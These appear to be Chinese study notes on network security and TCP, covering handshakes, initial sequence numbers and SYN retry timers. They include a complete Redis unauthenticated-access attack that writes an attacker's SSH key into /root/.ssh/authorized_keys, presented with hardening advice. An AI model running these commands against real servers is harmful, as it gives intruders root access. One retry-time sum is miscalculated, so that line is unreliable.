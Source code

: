 ### 网络端口攻击

不要将没有必要的端口对外开放。Redis攻击：

- 开放`6379`了端口，并安装了redis。

- 通过本地生成`ssh-keygen`，然后将密钥写入文件中。

  ```
  (echo -e "\n\n";cat ~/.ssh/id_rsa.pub;echo -e "\n\n";) > foo.txt
  # 删除数据
  redis-cli -h ip echo flushall
  # 将数据写入key中
  cat foo.txt |redis-cli -h ip -x set crackit
  redis-cli -h ip
  config set dir /root/.ssh
  config set dbfilename "authorized_keys"
  # 刷盘保存
  save
  ```

  不要用root权限启动机进程，避免覆盖root下的文件。

## TCP三次握手流程

- 为什么需要握手流程呢？

  三次握手有两大作用：

  - 交换彼此的初始序列号
  - 交换辅助信息，如MSS、Win、WS(窗口缩放因子)等。

- SYN报文不携带数据，为什么要消耗一个序列号呢？

  消耗序列号，意味着对端必须进行确认，如果没有确认则会重传，直到指定重试次数位置。

- 初始序列号是如何生成的？

  初始序列号的生成随时间而变化，一个典型的设计时，每`4`微秒，ISN+1，移除后归零，重新计算。

- 为什么ISN不能固定？

  - 安全方面，当得知连接的ISN后，很容易构造RST报文，强制关闭连接。
  - 端口复用时，前一个连接的包可能会影响下一个连接的数据，当两个连接的ISN不同时，不会出现串包。

- 如何构建`SYN_SENT`状态连接

```
+0 socket(...,SOCK_STREAM,IPPROTO_TCP) = 3
+0 connect(3,...,...)=-1
# 搭配netstat -antp |grep -i 8080
 tcpdump -i any port 8080 -nn
 # 重试次数 /proc/sys/net/ipv4/tcp_syn_retries
 1+2+4+8+16+32=65s
```

## TCP四层挥手流程



## 定时器

### 连接建立定时器

- 主动建立连接端发送`SYN`报文后，会开启连接建立定时器，如果没有收到`ACK`报文，则重传`SYN`报文，重传次数由`net.ipv4.tcp_syn_retries`控制，默认值为`6`，重传间隔时间为`2^(i-1)S`，`i`为第几次重传。连接建立超时后，将报`Connection timed out`异常。



